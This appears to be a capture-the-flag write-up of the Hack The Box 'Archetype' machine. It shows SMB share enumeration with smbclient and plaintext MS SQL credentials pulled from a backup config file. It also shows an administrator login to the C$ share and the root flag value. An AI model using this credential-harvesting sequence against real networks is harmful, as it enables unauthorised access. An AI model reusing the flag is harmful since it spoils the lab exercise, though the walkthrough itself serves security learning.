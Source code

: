 # Archetype (10.10.10.27) SMB
#archetype
## Summary
- Found root flag
- Found sql_svc credentials
## Procedure
1. List
	```
	tyler@tyler-ops:~$ smbclient -L 10.10.10.27
	Enter WORKGROUP\tyler's password: <empty>
	
		Sharename       Type      Comment
		---------       ----      -------
		ADMIN$          Disk      Remote Admin
		backups         Disk
		C$              Disk      Default share
		IPC$            IPC       Remote IPC
	SMB1 disabled -- no workgroup available
	```
	![[Pasted image 20210816141309.png]]
2. //10.10.10.27/backups/
	```
	tyler@tyler-ops:~$ smbclient //10.10.10.27/backups
	Enter WORKGROUP\tyler's password: <empty>
	Try "help" to get a list of possible commands.
	smb: \> ls
	  .                                   D        0  Mon Jan 20 04:20:57 2020
	  ..                                  D        0  Mon Jan 20 04:20:57 2020
	  prod.dtsConfig                     AR      609  Mon Jan 20 04:23:02 2020

					10328063 blocks of size 4096. 8258776 blocks available
	```
	![[Pasted image 20210816141648.png]]
	- Also reachable with sql_svc account
3. //10.10.10.27/backups/prod.dtsConfig
		- Extracted MS SQL credentials:
			- User: `ARCHETYPE\sql_svc`
			- Pass: `M3g4c0rp123`
	```
	<ConfiguredValue>
	Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;	
	</ConfiguredValue>
	```
	![[Pasted image 20210816144800.png]]
4. //10.10.10.27/ADMIN$/
	- Inaccessible with guest account
5. //10.10.10.27/C$/
	- Inaccessible with guest account
6. //10.10.10.27/IPC$/
	- Empty with guest account
	- Empty with sql_svc account
7. //10.10.10.27/C$/
	```
	tyler@ubuntu:~/Documents/learn/htb/htb-starting-point$ smbclient -W ARCHTYPE -U administrator \\\\10.10.10.27\\C$
	Enter ARCHTYPE\administrator's password:
	Try "help" to get a list of possible commands.
	smb: \> ls
	  backups                             D        0  Mon Jan 20 04:20:57 2020
	  Documents and Settings            DHS        0  Sun Jan 19 22:39:33 2020
	  pagefile.sys                      AHS 402653184  Tue Aug 17 08:05:37 2021
	  PerfLogs                            D        0  Sat Sep 15 00:12:32 2018
	  Program Files                      DR        0  Sun Jan 19 15:09:15 2020
	  Program Files (x86)                 D        0  Sun Jan 19 15:08:49 2020
	  ProgramData                        DH        0  Sun Jan 19 22:49:11 2020
	  Recovery                          DHS        0  Sun Jan 19 22:39:33 2020
	  System Volume Information         DHS        0  Sun Jan 19 22:38:58 2020
	  Users                              DR        0  Sun Jan 19 22:39:46 2020
	  Windows                             D        0  Sun Jan 19 15:08:24 2020

					10328063 blocks of size 4096. 8247829 blocks available
	smb: \>
	```
	![[Pasted image 20210817075007.png]]
	- Logged in with administrator account
8. //10.10.10.27/C$/Users/Administrator/Desktop/root.txt
	- Found root.txt which contains root flag
	- root flag: `b91ccec3305e98240082d4474b848528`
